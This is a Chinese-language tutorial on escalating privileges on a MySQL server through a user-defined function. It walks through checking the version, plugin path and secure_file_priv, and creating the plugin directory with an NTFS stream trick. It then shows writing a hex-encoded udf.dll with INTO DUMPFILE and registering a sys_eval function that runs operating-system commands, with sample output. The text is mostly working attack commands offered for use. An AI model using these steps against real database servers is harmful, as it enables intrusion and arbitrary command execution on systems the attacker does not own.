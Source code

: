 ```c
文件末为.so，则为linux系统，如果是win，则后缀为dll
```

开始提权
根据数据库版本选择上传udf.dll的位置

```c
select version();      #查看版本
```

如果版本号大于5.1.4 上传udf的位置应该放在mysql\lib\plugin【如果不存在目录 自己新建一个】
如果版本小于5.1 上传udf的位置应该放在c盘的windows或者windows32目录里

```c
show variables like "%plugin%"    #查看plugin位置
```

secure_file_priv会影响我们的能否使用dumpfile，以及上传的位置

```c
show variables like "%secure%"    #查看secure_file_priv
```

当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权

当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权

当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权

secure_file_priv可以在mysql的配置文件[my.ini]里面修改
但是重启数据库才能生效

如果没有路径，尝试创建路径

```sql
select 233 into dumpfile 'D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin::$index_allocation';
```

```c
show variables like "%compile%";     #查看数据库是多少位的
```

选择多少位的udf.dll

写入动态链接库

```sql
SELECT 0x7f454c4602... INTO DUMPFILE 'D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll';
```

国光大佬博客有现成的16进制代码：https://www.sqlsec.com/tools/udf.html

创建自定义函数并调用命令

```
mysql > CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

导入成功后查看一下 mysql 函数里面是否新增了 sys_eval：

```
mysql> select * from mysql.func;
+----------+-----+---------+----------+
| name     | ret | dl      | type     |
+----------+-----+---------+----------+
| sys_eval |   0 | udf.dll | function |
+----------+-----+---------+----------+
```
